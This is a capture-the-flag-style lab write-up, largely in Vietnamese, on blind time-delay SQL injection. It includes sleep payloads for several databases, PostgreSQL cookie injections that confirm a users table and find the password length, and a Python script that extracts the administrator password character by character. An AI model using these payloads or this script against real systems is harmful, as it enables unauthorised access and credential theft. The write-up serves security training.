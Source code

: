 # Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:

Theo tiêu đề của lab, chúng ta sẽ thực hiện tấn công SQL mà kết quả trở về có độ trễ. Từ đó ta có thêm thời gian thực thi câu lệnh SQL để thực hiện các cuộc tấn công khác.

Goal của chúng ta là cần inject query đối với time delays thích hợp.

Cheat sheet, time-delay mà lab đưa ví dụ khá là nhiều cho các version database. Vì ko biết sử dụng cái nào mình phải mò từng cái

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

# Solution:

```
SELECT trackingId FROM someTable WHERE trackingId = 'vvv' || (<CODE HERE>) || ''
```

**vvv là giá trị của cookie**

Kí tự đầu tiên được inject vào là `'` sau `vvv`, sau đó mình nối với output của code. Tiếp theo là nối với `'`. Đối với Oracle và PostgreSQL, `||` được sử dụng để ghép nối, với Microsoft `+` và  MySQL là `khoảng trắng`.

Đồi với PostgreSQL inject `'||(SELECT pg_sleep(10))||'`, query cần thời gian giải để hoàn thành: 10.241s. Thường thì đối với mình, query mất khoảng 240millis.Vậy thêm 10 đến từ việc inject

![image](https://user-images.githubusercontent.com/115911041/234800969-b0ba8d28-7555-4c02-94a4-c91e27544904.png)


## Xác định tên table và column cũng như là username:

Bây giờ ta đã biết database đang chạy version nào, bước tiếp theo:

- Xác định table `users` có tồn tại hay không

- Xác định columns `username` và `password`

- Tìm Entry của username `administrtor`

Mình đã giảm xuống delay đến 3 secs để cho nó tiện hơn.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802100-7a17b2a6-0262-4c8f-bfb1-40b98f5e3d28.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802664-9461a3b5-b35c-49a8-b45d-fcddb8035404.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![image](https://user-images.githubusercontent.com/115911041/234802886-5d458454-fe78-47af-9dce-7e6013a61514.png)

Cả 3 query đều hơn 3 secs, trong khi sử dụng các tên table khác nhau hoặc cột hoặc sử dụng tên username, thì phản hồi có ngay.

Vậy table có tồn tại với column `username` và `password`, bao gồm entry cho `administrator` như là username.

## Xác định độ dài của password

```
'SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

Nếu 1 trong 2 điều kiện không đúng thì kết quả trả về sẽ không có độ trễ, do đó ta đã biết được rằng username là administrator và độ dài của chuỗi password phải lớn hơn 1.

Ta tiếp tục thử đển khi giá trị độ dài của chuỗi password > 20 thì khi đó kết quả trả về sẽ không có độ trễ. Do đó ta có thể suy ra được độ dài của chuỗi bao gồm 20 kí tự.





# Script python
```
import requests
import string
from requests.exceptions import Timeout

characters = list(string.ascii_lowercase)
characters += list(string.digits)
url = "" #Target URL
length = 20
result = ''

print("[+] Extract Info")

for i in range(1, length+1):
    for char in characters:
        payload = "a'%%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,%i,1)='%s')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--" %(i, char)
        print("Tring Number %i with: " %(i), char)
        cookie = {"TrackingId":payload}
        try:
            requests.get(url, cookies=cookie , timeout=5)
        except Timeout:
            result += char
            break

    print("[+] Result is : ", result)
```


